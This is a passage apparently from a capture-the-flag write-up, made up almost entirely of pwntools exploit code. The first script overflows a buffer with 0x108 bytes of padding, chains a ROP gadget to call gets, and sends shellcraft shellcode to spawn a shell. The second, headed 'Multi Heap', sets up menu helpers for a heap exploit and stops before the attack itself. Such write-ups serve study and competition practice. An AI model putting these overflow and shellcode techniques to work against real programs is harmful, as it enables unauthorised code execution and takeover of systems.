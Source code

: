 ```python


def main():
    # Your exploit script goes here
    p.ru(':)\n')
    pop_rdi = 0x400773
    gets = 0x400580

    ropchain = p64(pop_rdi)
    ropchain += p64(0x601090)
    ropchain += p64(gets)
    ropchain += p64(0x601090)

    payload = 'a' * 0x108 + ropchain

    shellcode = shellcraft.sh()
    gdb.attach(p)
    p.sl(payload)
    p.sl(asm(shellcode))
    p.irt()

if __name__ == '__main__':
    main()


```

### Multi Heap

```python
from pwn import *
context.log_level = 'debug'

def Alloc(which, size, where):
    p.recvuntil('Your choice: ')
    p.sendline('1')
    p.recvuntil('Which: ')
    p.sendline(which)
    p.recvuntil('Size: ')
    p.sendline(str(size))
    p.recvuntil('(m/t): ')
    p.sendline(where)

def Free(idx):
    p.recvuntil('Your choice: ')
    p.sendline('2')
    p.recvuntil('Index: ')
    p.sendline(str(idx))

def Free_s(idx):
    return '2\n' + str(idx) + '\n'

def Write(idx):
    p.recvuntil('Your choice: ')
    p.sendline('3')
    p.recvuntil('Index: ')
    p.sendline(str(idx))

def Read(idx, size, buf):
    p.recvuntil('Your choice: ')
    p.sendline('4')
    p.recvuntil('Index: ')
    p.sendline(str(idx))
```